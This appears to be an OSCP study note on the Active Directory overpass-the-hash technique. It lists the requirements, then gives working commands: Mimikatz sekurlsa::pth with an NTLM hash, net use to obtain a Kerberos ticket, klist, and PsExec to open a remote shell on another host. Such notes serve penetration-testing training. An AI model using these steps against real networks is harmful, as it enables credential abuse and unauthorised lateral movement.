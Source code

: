 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/14-active-directory-movement/4-overpass-the-hash/"}
---
```


----------
- Use NTLM user hash to gain full Kebreros Ticket Grantin Ticket (TGT), and then obtain Ticket Granting Service (TGS)
- Allows to pass NTLM hash to run services that requires Kerberos instead
- Requires:
	- Local admin privileges
	- NTLM hash of user

----------
### Overpass-the-Hash Remote Shell using Mimikatz:
1. Run Mimikatz and enable debug.
2. Create TGT:
```
sekurlsa::pth /user:<targetuser> /domain:<domain> /ntlm:369def79d8372408bf6e93364cc93075 /run:powershell
```
3. Obtain ticket by authenticating to network share:
```
net use \\files04
```
4. Analyze ticket:
```
klist
```
5. Run PsExec and launch cmd using ticket:
```
.\PsExec.exe \\files04 cmd
```

